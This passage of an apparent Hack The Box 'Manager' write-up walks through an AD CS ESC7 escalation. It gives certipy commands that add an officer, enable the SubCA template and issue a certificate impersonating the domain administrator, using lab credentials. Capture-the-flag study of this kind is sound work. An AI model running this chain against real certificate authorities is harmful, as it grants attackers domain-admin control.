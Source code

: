 ![Untitled](assets/Manager/vulnCA.png)

We can see we have dangerous privileges(**ManageCA**) on the cert Authorities, we can grant yourself the Manage Certificates access right by adding your user as a new officer.

```bash
# add raven to officer
certipy ca -u "raven@mamanger.htb" -p 'R4v3nBe5tD3veloP3r!123' -dc-ip "10.10.11.236" -ca 'manager-DC01-CA' -add-officer 'raven'

# List all the templates
certipy ca -u "raven@mamanger.htb" -p 'R4v3nBe5tD3veloP3r!123' -dc-ip "10.10.11.236" -ca 'manager-DC01-CA' -list-templates

# Enable the 'SubCa' certificate template
certipy ca -u "raven@mamanger.htb" -p 'R4v3nBe5tD3veloP3r!123' -dc-ip "10.10.11.236" -ca 'manager-DC01-CA' -enable-template 'SubCA'
```

This request will be denied, but we will save the private key and note down the request ID.

```bash
# NOTE THE request id
certipy req -username raven@mamager.local -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 10.10.11.236 -template SubCA -upn administrator@manager.htb

#request with the ca command and the -issue-request <request ID> parameter.
certipy ca -ca 'manager-DC01-CA' -issue-request <request ID> -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

#we can retrieve the issued certificate
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 10.10.11.236 -retrieve <Request ID>
```
